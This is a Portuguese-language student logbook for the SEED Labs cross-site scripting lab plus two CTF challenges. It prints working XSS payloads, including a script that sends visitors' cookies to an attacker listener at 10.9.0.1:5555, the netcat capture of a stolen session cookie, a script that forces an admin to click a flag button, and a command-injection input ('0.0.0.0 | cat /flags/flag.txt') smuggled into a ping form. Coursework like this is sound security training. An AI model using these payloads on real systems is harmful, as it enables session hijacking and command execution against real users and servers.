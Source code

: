 # SEED Labs - Cross-Site Scripting (XSS) Attack Lab

## Preparation: Getting Familiar with the "HTTP Header Live" tool

Utilizou-se a ferramenta `"HTTP Header Live"` para capturar e analisar pedidos HTTP, em particular, o pedido que é feito quando um utilizador (neste caso Alice) clica no botão `Add friend` no perfil de `Samy`, ou seja, quando se adiciona `Samy` à lista de amigos. O pedido HTTP capturado encontra-se abaixo. Este será útil na `task 4`.

![](./screenshots/logbook10_task0.png) 

```
http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=1670606154&__elgg_token=FFMYbLmKbNuV0PqhQnzMgQ&__elgg_ts=1670606154&__elgg_token=FFMYbLmKbNuV0PqhQnzMgQ
Host: www.seed-server.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: keep-alive
Referer: http://www.seed-server.com/profile/samy
Cookie: Elgg=6ci56crsicjs6buh3fjo2pf68o
```

## Task 1: Posting a Malicious Message to Display an Alert Window

Depois de fazer _log in_ como Samy (username **samy** e password **seedsamy**) por exemplo, tal como é sugerido no guião, colocou-se o seguinte código JavaScript no campo `Brief description` do seu perfil. Outro campo do perfil onde é esperado _input_ do utilizador, por exemplo `Location`, seria válido, porque não é apenas no campo `Brief description` que o _input_ do utilizador não é devidamente tratado.

```html
<script>alert('XSS');</script>
```

![](./screenshots/logbook10_task1_1.png)

Tal como era esperado, sempre que um utilizador visita o perfil de `Samy` o código é executado e uma janela de alerta é exibida. 

![](./screenshots/logbook10_task1_2.png) 

## Task 2: Posting a Malicious Message to Display Cookies

Muito semelhante à `task 1`. Tal como é sugerido no guião, substitui-se o código JavaScript da `task 1` pelo seguinte: 

```html
<script>alert(document.cookie);</script>
```

![](./screenshots/logbook10_task2_1.png) 

Tal como era esperado, sempre que um utilizador visita o perfil de `Samy` (neste caso), o código é executado e uma janela de alerta é exibida com as cookies do próprio utilizador. 

![](./screenshots/logbook10_task2_2.png) 

## Task 3: Stealing Cookies from the Victim’s Machine

Na `task 2` apenas o utilizador visualizava as suas _cookies_. Para o atacante ter acesso às mesmas é necessário modificar o código JavaScript, como é sugerido no guião, para o seguinte:

```html
<script>document.write('<img src=http://10.9.0.1:5555?c='
                       + escape(document.cookie) + '   >');
</script>
```

- Nota: A explicação do código acima foi omitida, uma vez que, a mesma já se encontra no guião.

![](./screenshots/logbook10_task3.png) 

De modo a ficar à escuta na porta 5555 e imprimir o pedido HTTP GET com as _cookies_, utilizou-se o comando `nc -lknv 5555`, cujo _output_ foi o seguinte:

```sh
[12/09/22]seed@VM:~/.../Labsetup$ nc -lknv 5555
Listening on 0.0.0.0 5555
Connection received on 10.0.2.7 56350
GET /?c=Elgg%3Dlutf37jd6iap3futo623ouohpe HTTP/1.1
Host: 10.9.0.1:5555
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://www.seed-server.com/profile/samy
```

É possível verificar que as _cookies_ recebidas na máquina do atacante coincidem com as que foram impressas na `task 2`.

## Task 4: Becoming the Victim’s Friend

De modo a perceber os pedidos HTTP (e os seus parâmetros) que são enviados ao servidor quando um utilizador (neste caso Alice) adiciona `Samy` à sua lista de amigos, isto é, quando clica no botão `Add friend` no perfil de `Samy`, fez-se _log in_ como Alice (username **alice** e password **seedalice**) e clicou-se no respetivo botão. O pedido HTTP capturado encontra-se na `Preparation` e foi o seguinte:

```
http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=1670606154&__elgg_token=FFMYbLmKbNuV0PqhQnzMgQ&__elgg_ts=1670606154&__elgg_token=FFMYbLmKbNuV0PqhQnzMgQ
Host: www.seed-server.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: keep-alive
Referer: http://www.seed-server.com/profile/samy
Cookie: Elgg=6ci56crsicjs6buh3fjo2pf68o
```

Analisando o pedido, verifica-se que o URL é `http://www.seed-server.com/action/friends/add` e o valor do parâmetro `friend` é **59** (ID de Samy), que é usado para especificar o utilizador que deve ser adicionado à lista de amigos. Existem mais dois parâmetros, `__elgg_ts` e `__elgg_token`, que são contramedidas contra ataques `CSRF`.

# CTF - Semanas 10 e 11

## Desafio 1

Ao entrar na página web, deparamo-nos com um form simples onde podemos inserir texto, que depois pode ser visto pelo administrador.

![img](screenshots/apply_flag1.PNG)  

![img](screenshots/apply_flag2.PNG)

Se o input do form não for *sanitized*, então esta página fica vulnerável a um ataque XSS, uma vez que é possível colocar uma tag `<script>` no código html da página.

O objetivo é fazer o administrador clicar no botão "Give the flag", uma vez que o utilizador não autenticado não tem permissões para o fazer (mesmo que não esteja `disabled`)

```html
<form method="POST" action="" role="form">
    <div class="submit">     
        <input type="submit" id="giveflag" value="Give the flag" disabled="">      
    </div>
</form>
```

Então, vamos utilizar um script que realize essa ação ao carregar a página, de modo a que seja feito do lado do administrador.

```html
<script> window.onload = function(){document.getElementById('giveflag').click();} </script>
```

![img](screenshots/apply_flag3.PNG)  

![img](screenshots/apply_flag4.PNG)


## Desafio 2

Ao explorar o site, encontramos algumas funcionalidades disponíveis a um utilizador não autenticado, que podemos tentar explorar. Nomeadamente existe funcionalidade que nos permite testar a nossa ligação a um ip específico.

![img](screenshots/ping1.PNG) 

Pela forma como é feito, percebemos que é usado o comando linux `ping`, ou seja, existe uma shell de linux a correr no servidor, à qual temos acesso. Sabendo pelo eunuciado que a flag se encontra em `/flags/flag.txt` vamos usar a shell para imprimir o conteúdo deste ficheiro, usando como input `0.0.0.0 | cat /flags/flag.txt`.

![img](screenshots/ping2.PNG) 


